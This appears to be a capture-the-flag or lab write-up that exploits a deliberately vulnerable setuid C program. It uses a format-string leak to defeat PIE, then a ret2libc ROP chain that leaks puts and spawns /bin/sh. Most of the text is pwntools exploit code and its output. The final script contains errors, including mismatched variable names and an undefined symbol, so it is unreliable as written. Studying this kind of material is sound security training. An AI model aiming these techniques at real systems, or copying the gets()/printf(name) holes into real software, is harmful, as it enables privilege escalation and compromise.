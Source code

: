 # 08-leak_pie_ret2libc
### 1. General information on the binary
- Name: `pie_server`
- *ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=358390e52d086a4d5ef65c02f2dff0796b81dc69, for GNU/Linux 3.2.0, not stripped*
- Stack Canary: <span style='color:red'>No canary found</span>
- NX: <span style='color:lime'>NX enabled</span>
- PIE: <span style='color:lime'>PIE enabled</span>

### 2. Code Review
```
#include <stdio.h>

void enter_name(){
    char name[64];
    puts("Please enter your name:");
    fgets(name, sizeof(name), stdin);
    printf("Hello ");
    printf(name);
}

void vuln(){
    char buffer[256];
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    enter_name();

    puts("\nGood luck with your ret2libc, you'll never bypass my new PIE protection OR find out where my lib-c library is :P\n");

    vuln();

    return 0;
}
```
The code is vulnerable to `buffer overflow` and `format string vulnerability`. The format string vulnerability is found in `enter_name` function where the `name` array is directly used inside `printf`. The bufferoverflow can be found inside `vuln()` where the function `gets()` is used to fill the buffer called `buffer`.

### 3. General Idea to Exploit the vulnerability
The idea is to first leak some function's address via `format string vulnerability` and then use that address to leak the `piebase`. The little script to fuzz the pointer values which might point to some string can be found below.
```
from pwn import *

exe = './pie_server'

elf = context.binary = ELF(exe, checksec = False)
context.log_level = 'warning'
for i in range(100):
        try:
                p = process(exe)
                p.sendlineafter(b':','%{}$p'.format(i).encode())
                p.recvuntil(b'Hello ')
                result = p.recvline()
                print(str(i)+': '+str(result))
                p.close()
        except EOFError:
                pass
```
Running this code will output something like this:
```
0: b'%0$p\n'
1: b'0x6c6c6548\n'
2: b'(nil)\n'
3: b'(nil)\n'
4: b'0x7fffffffddf0\n'
5: b'0x6\n'
6: b'0xa70243625\n'
7: b'0x7fffffffde27\n'
8: b'0x7fffffffde26\n'
9: b'0x555555555295\n'
10: b'0x7ffff7fba2e8\n'
11: b'0x555555555250\n'
12: b'0x555555555250\n'
13: b'0x21020af943ad6200\n'
...
```
Run this code for 2 3 times and notice which address doesn't change much. For me it is the 11th address  `0x555555555250`. A quick look at gdb and the function at this address is `__libc_csu_init`. Now the offset of this particular function is at certain offset from the base address which can be found in gdb.
```
> info functions
0x0000000000001180  frame_dummy
0x0000000000001185  enter_name
0x00000000000011d6  vuln
0x00000000000011f8  main
0x0000000000001250  __libc_csu_init
0x00000000000012b0  __libc_csu_fini
0x00000000000012b4  _fini
```
Here the offset can be seen as `0x1250`. This offset is always constant from the base address. So `0x555555555250` - `0x1250` = `0x555555554000` is the piebase address.

---
After getting the base address of the piebase next step is leak the address of `libc`. The way to do it is to use the bufferover flow to overwrite `return address`. The `return address` if is of `puts` function with its parameter being address of the `puts` itself then we can leak the address of `libc` by just subtracting the offset of `puts` from the leaked address.

The below code successfully leaks the address of the `puts` function from `Global Address Table`. And then calculate the base address of libc from where the address of `execve` and `/bin/sh` can be calculated.
```
from pwn import *
exe = './pie_server'
elf = context.binary = ELF(exe, checksec=False)
io = process(exe)
offset = 264    #8 bytes after 264 bytes goes to the rip register

#leaking the piebase address
io.sendlineafter(b':','%{9}$p')
io.recvuntil('Hello ')
leaked_addr = int(io.recvline(),16)

info('leaked address: %#x', leaked_addr)
elf.address = leaked_address - 0x1295 # 0x1295 is the offset from piebase to the leaked function address
info('piebase: %#x', elf.address)

pop_rdi = elf.address + 0x12ab # gadget from pop_rdi

payload = flat({
    offset:[
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        vuln
    ]
})
io.sendlineafter(b':p',payload)
io.recvlines(2)

got_puts = unpack(io.recv()[:6].ljust(8,b'\x00'))
info('leaked got_puts %#x', got_puts)
libc_base = got_puts - 0x84420 # 0x84420 is the offset of puts in libc
info('libc base %#x', libc_base)

#calling execve with /bin/sh

execve = libc_base + 0xe3500
bin_sh = libc_base + 0x1b45bd

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        execve
    ]
})
io.sendline(payload)
io.interactive

```
![shell](./flag.png)

### Thank you for reading the blog post